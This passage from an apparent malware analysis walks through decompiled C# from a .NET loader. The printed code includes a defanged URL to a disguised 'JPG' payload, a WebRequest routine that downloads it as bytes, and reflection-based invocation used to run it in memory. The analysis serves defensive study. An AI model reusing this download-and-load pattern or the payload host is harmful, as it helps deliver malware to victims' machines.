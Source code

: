 ```cs
    }
    return Class1.smethod_2("hxxp://18.179.111[.]240/xr0/loader/uploads/scan08710203065_Kvnllpaf.jpg");
}
```

Most of the code in this function is either junk or imposes a slight delay before further execution. The only real important code in the function is the last line that calls `Class1.smethod_2()`, passing in a URL to an alleged JPG file. We know this function is supposed to return a byte array to get reversed and loaded into memory, so there's a decent chance this upcoming code performs a download of a reversed Windows EXE or DLL. Let's jump to that code:

```cs
static byte[] smethod_2(string string_0)
{
    using MemoryStream memoryStream = new MemoryStream();
    WebRequest val = WebRequest.Create(string_0);
    Stream responseStream = val.GetResponse().GetResponseStream();
    responseStream.CopyTo(memoryStream);
    return memoryStream.ToArray();
}
```

Sure enough, the method creates a [WebRequest](https://docs.microsoft.com/en-us/dotnet/api/system.net.webrequest?view=net-6.0) object for the URL, passes its response into a [MemoryStream](https://docs.microsoft.com/en-us/dotnet/api/system.io.memorystream?view=net-6.0), and returns the content as a byte array. This function ends the second branch of code from `Main()`, and we can dive into the final function from `Main()` here:

```cs
internal static void smethod_1()
{
    Assembly[] assemblies = AppDomain.CurrentDomain.GetAssemblies();
    foreach (Assembly assembly in assemblies)
    {
        Type[] types = assembly.GetTypes();
        foreach (Type type in types)
        {
            try
            {
                Queue<int> val = new Queue<int>();
                val.Enqueue(10);
                val.Enqueue(23);
                val.Enqueue((int)type.InvokeMember("Zsjeajjr", BindingFlags.InvokeMethod, null, null, null));
                val.Enqueue(5);
                val.Enqueue(29);
                Enumerator<int> enumerator = val.GetEnumerator();
                try
                {
                    while (enumerator.MoveNext())
                    {
                        int current = enumerator.get_Current();
                        Console.WriteLine(current);
                    }
                }
                ...
```
